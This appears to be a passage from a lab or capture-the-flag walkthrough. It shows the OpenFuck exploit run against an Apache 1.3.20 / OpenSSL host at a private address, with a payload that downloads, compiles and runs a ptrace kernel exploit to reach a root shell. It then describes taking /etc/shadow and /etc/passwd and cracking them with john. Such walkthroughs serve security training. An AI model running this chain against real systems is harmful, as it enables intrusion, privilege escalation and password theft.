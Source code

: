 ```shell  
$ ./OpenFuck | grep 1.3.20 | grep RedHat
    0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
    0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2

$ ./OpenFuck 0x6b 192.168.1.104 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8088
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo
--15:11:51--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

15:11:53 (1.87 MB/s) - `ptrace-kmod.c' saved [3921/3921]

/usr/bin/ld: cannot open output file exploit: Permission denied
collect2: ld returned 1 exit status
gcc: file path prefix `/usr/bin' never used
ls
exploit
whoami
root
```  

Try 2 to 3 times if exploit does not work (because the payload download a file "ptrace-kmod.c" from internet). We can get a root shell. Now from here we can get /etc/shadow and /etc/passwd file. Copy them on the system and try to crack the passwords of users with john.  

```shell  
$ unshadow passwdfile shadowfile > crack.passwd.db
$ john crack.passwd.db
```  
